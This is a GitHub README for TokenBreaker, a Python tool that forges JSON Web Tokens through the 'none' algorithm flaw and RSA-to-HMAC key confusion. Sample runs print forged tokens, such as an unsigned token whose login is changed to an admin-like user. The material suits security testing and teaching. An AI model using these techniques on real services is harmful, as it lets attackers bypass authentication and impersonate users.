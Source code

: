 # TokenBreaker

Token Breaker is focused on 2 particular vulnerability related to JWT tokens.

 - None Algorithm
 - RSAtoHMAC

Refer to [this](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/) link about insights of the vulnerability and how an attacker can forge the tokens

Try out this vulnerability [this](http://demo.sjoerdlangkemper.nl/jwtdemo/rs256.php?)

## TheNone Usage
'''
usage: TheNone.py [-h] -t TOKEN

TokenBreaker: 1.TheNoneAlgorithm

optional arguments:
  -h, --help            show this help message and exit

required arguments:
  -t TOKEN, --token TOKEN
                        JWT Token value

Example Usage: python TheNone.py -t [JWTtoken]
'''

### Output
'''
$ ./TheNone.py -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXUyJ9.eyJsb2dpbiI6ImFkbSIsImlhdCI6IjE1Mzc1MjMxMjIifQ.ZWZhNjRmZDgzYWYzNDcxMjk5OTQ4YzE0NDVjMTNhZmJmYTQ5ZDhmYjY0ZDgyMzlhMjMwMGJlMTRhODA2NGU4MQ

TheNone

[*] Decoded Header value is: {"alg":"HS256","typ":"JWS"}
[*] Decoded Payload value is: {"login":"adm","iat":"1537523122"}
[*] New header value with none algorithm: {"alg":"None","typ":"JWS"}
[<] Modify Header? [y/N]: n
[<] Enter your payload: {"login":"sprAdm","iat":"0"}
[+] Successfully encoded Token: eyJhbGciOiJOb25lIiwidHlwIjoiSldTIn0.eyJsb2dpbiI6InNwckFkbSIsImlhdCI6IjAifQ.
'''

## RSAtoHMAC Usage
'''
usage: RsaToHmac.py [-h] -t TOKEN -p PUBKEY

TokenBreaker: 1.RSAtoHMAC

optional arguments:
  -h, --help                        show this help message and exit

required arguments:
  -t TOKEN, --token TOKEN           JWT Token value
  -p PUBKEY, --pubkey PUBKEY        Path to Public key File

Example Usage: python RsatoHMAC.py -t [JWTtoken] -p [PathtoPublickeyfile]</pre></code>
'''

### Output
'''
$ ./RsaToHmac.py -t eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC9kZW1vLnNqb2VyZGxhbmdrZW1wZXIubmxcLyIsImlhdCI6MTU0MDM3NjA2MSwiZXhwIjoxNTQwMzc2MTgxLCJkYXRhIjp7ImhlbGxvIjoid29ybGQifX0.HI50KvoHzcf7znWkrdugn5-O-68PpJAeiS21cLisC1WgEI21gWnqqvv3oqsnzbGkIt21NvPVHWFXoKJmLPKHeMeYLgc7nuVdF37WWd7M1XzZEP8zLoed7Z6K0KfNuR_CRsjogv1KAt8fJQvRzRhFi9dORHGxWRqpiInIgLKROLgXB-7Rv2SOYdyD_XylRaVJ1JpmmCyVmIbzVWhVuRJWT59AUm43yYRP3bBt-bnhMfkzFpwxTk3O84-On4DoIt6NIkRJaxXDUdDKscLGmSWQmdZsZds3XSV0ZgN0PObADqkZwwCBAqUTT7l5BVcBmasdnNuZ8cCDKzNtJr2cdow6zQ -p public.pem

RSA to HMAC

[*] Decoded Header value: {"typ":"JWT","alg":"RS256"}
[*] Decode Payload value: {"iss":"http:\/\/demo.sjoerdlangkemper.nl\/","iat":1540376061,"exp":1540376181,"data":{"hello":"world"}}
[*] New header value with HMAC: {"typ":"JWT","alg":"HS256"}
[<] Modify Header? [y/N]: n
[<] Enter Your Payload value: {"iss":"http:\/\/www.google.com\/","iat":2351287873,"exp":1843945693,"data":{"hello":"hacked!"}}
[+] Successfully Encoded Token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOlwvXC93d3cuZ29vZ2xlLmNvbVwvIiwiaWF0IjoyMzUxMjg3ODczLCJleHAiOjE4NDM5NDU2OTMsImRhdGEiOnsiaGVsbG8iOiJoYWNrZWQhIn19.8jfUVCZPA7cWaSfe0LIjRt692RaFHnnvtw0jHoSAneQ
'''
